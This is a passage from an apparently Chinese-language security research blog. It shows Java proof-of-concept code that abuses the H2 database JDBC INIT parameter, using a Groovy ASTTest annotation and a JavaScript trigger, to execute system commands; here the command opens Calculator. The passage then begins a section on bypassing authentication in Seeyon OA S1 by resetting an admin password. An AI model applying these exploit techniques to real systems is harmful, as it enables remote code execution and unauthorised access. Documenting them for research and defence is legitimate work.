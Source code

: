 **利用**`@groovy.transform.ASTTEST`**就可以使用 assert 来执行命令**

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String groovy = "@groovy.transform.ASTTest(value={" + " assert java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")" + "})" + "def x";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '"+ groovy +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

**除了 Groovy 以外还有 JavaScript 的利用方案**

[![img](assets/1701072800-9b27196dac67ed916453a8399aca3ba7.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749239.png)

```python
public static void main (String[] args) throws ClassNotFoundException, SQLException {
    String javascript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javascript +"'";
    Connection conn = DriverManager.getConnection(url);
    conn.close();
}
```

## 致远 oa S1 服务 后台用户密码重置导致的鉴权绕过[](#%E8%87%B4%E8%BF%9Coa-S1%E6%9C%8D%E5%8A%A1-%E5%90%8E%E5%8F%B0%E7%94%A8%E6%88%B7%E5%AF%86%E7%A0%81%E9%87%8D%E7%BD%AE%E5%AF%BC%E8%87%B4%E7%9A%84%E9%89%B4%E6%9D%83%E7%BB%95%E8%BF%87)

在前面找到对应的利用方案之后，**当我们尝试去做利用的时候会发现其实后台有额外的权限验证**。直接访问 testDBConnenction，会报**非法访问的错误。**

[![img](assets/1701072800-537930b7bd2604d7029e1b6f6c57a269.png)](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/202311211749235.png)

